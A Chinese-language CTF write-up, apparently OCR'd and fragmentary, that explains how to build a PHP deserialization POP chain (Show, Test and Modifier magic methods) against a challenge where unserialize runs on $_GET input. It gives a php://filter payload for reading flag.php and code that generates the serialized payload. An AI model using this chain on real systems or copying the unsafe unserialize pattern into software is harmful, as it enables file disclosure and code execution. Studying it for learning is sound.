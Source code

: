 ```
    }
 
    public function __get($key){
        $function = $this->p;
        return $function();
    }
}
 
if(isset($_GET['pop'])){  @unserialize($_GET['pop']);  }
else{
    $a = new Show;
    highlight_file(__FILE__);
}
?>

```

对于这种`POP`链问题的解决，一般有两个方向。

1.  ** 正向。** 从 `__destruct 或者 __wakeup` 开始寻找，慢慢梳理到危险函数。
2.  ** 反向。** 从危险函数开始找可以调用的路径。

当然，这就像思考数学证明一样，可以正向、反向相结合，最终找到链路。本人习惯是反向寻找。

1.  危险函数是`Modifier`中的`append`函数
2.  `Modifier`中的`__invoke`调用`append`函数。（`__invoke`是将对象当做函数调用时的返回方法）
3.  `Test`中`__get`函数可以调用`__invoke`。（`__get`是获得一个类的成员变量时调用）
4.  `Show`中`__toString`函数可以调用`__get`。（`__toString`是当一个对象被当作一个字符串时就会调用）
5.  `Show`中`__wakeup`函数可以调用`__toString`。

根据上面的分析 `payload`生成基本流程如下

```
Show1.__wakeup() // Show1.source == Show2
    Show2.__toString() // Show2.str == Test1
        Test1.__get() // Test1.p == Modifier1
            Modifier1.__invoke() // Modifier1.var == payload

```

需要注意的有以下 2 点：

1.  由于题目中过滤了很多内容，我们使用伪协议读出页面源码 `php://filter/convert.base64-encode/resource=flag.php`。
2.  `protected`与`private`会在序列序列化的时候出现不可见字符，所以建议所有序列化字符串都进行 url 编码
3.  `protected`与`private`在类外部无法读写，我习惯自己写个赋值函数进行赋值。

`payload`生成页面如下。

```
source = $sor;
    }
}
  
class Test{
    public $p;
}
 
$Modifier1 = new Modifier();
$Test1 = new Test();
$Test1->p = $Modifier1;
$Show2 = new Show();
$Show2->str = $Test1;
$Show1 = new Show(); 
$Show1->getSource($Show2);
echo urlencode(serialize($Show1));
```